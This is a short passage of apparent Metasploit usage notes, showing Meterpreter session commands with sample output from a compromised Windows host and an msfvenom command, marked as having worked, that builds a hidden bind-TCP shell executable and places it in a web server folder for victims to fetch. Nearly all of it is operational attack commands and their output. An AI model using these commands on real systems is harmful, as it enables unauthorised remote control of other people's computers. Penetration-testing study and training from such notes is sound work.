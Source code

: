 
_Backgrounds the current session:_

```
background


[*] Backgrounding session 1...
```



_Show sessions:_

```
sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  PC-010-NADIF\ISTL-PC-3 @ PC-010-NADIF  192.168.10.193:35883 -> 192.168.10.44:4444 (192.168.10.44)

```


_Quickly switch to another session:_

```
sessions 1
```


```
quit

[*] Shutting down session: 1
```



```
sessions


Active sessions
===============

No active sessions.
```



#### Hidden Bind TCP: [worked]

```
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.10.193 lport=1010 -f exe > /var/www/html/hidden.exe
```
